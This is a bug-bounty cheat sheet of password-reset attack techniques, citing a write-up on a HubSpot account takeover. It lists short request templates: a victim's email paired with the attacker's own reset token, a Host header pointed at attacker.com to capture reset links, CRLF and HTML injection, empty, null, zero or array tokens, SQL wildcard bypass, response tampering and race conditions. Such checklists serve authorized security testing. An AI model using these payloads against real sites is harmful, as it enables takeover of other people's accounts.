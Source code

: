 ## a lot of ideas in this article  by **omer hesham**
```
https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5
```

## Use Your Token on Victims Email
```
POST /reset
...
...
email=victim@gmail.com&token=$YOUR-TOKEN$

```

## Host Header Injection
```
POST /reset
Host: attacker.com
...
email=victim@gmail.com
```

## HTML injection in Host Header
```
POST /reset
Host: attacker">.com
...
email=victim@gmail.com
```

## Leakage of Password reset in Referer Header
```
Referrer: https://website.com/reset?token=1234
```


## Using Companies Email
```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a
user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc #BugBountyTips
```

## CRLF in URL
```
with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

## HTML injection in Email
```
HTML injection in email via parameters, cookie, etc > inject image > leak the  token
```

## Remove token
```
http://example.com/reset?eamil=victims@gmail.com&token=
```

## Change it to 0000
```
http://example.com/reset?eamil=victims@gmail.com&token=0000000000
```

## Use Null Value
```
http://example.com/reset?eamil=victims@gmail.com&token=Null/nil
```

## try an array of old tokens
```
http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]
```

## SQLi bypass
```
try sqli bypass and wildcard or, %, *
```

## Request Method / Content Type
```
change request method (get, put, post etc) and/or content type (xml<>json) 
```

## Response Manipulation
```
Replace bad response and replace with good one
```

## Massive Token
```
http://example.com/reset?eamil=victims@gmail.com&token=1000000 long string
```

## Crossdomain Token Usage
```
If a program has multiple domains using the same underlying reset mechanism, a reset token generated from one domain sometimes 
works in another domain too.
```
## Leaking Reset Token in Response Body 

## Change 1 char at the begin/end to see if the token is evaluated 

## Use unicode char jutzu to spoof email address 

## Look for race conditions 

## Try to register the same mail with a different TLD (.eu,.net etc)  
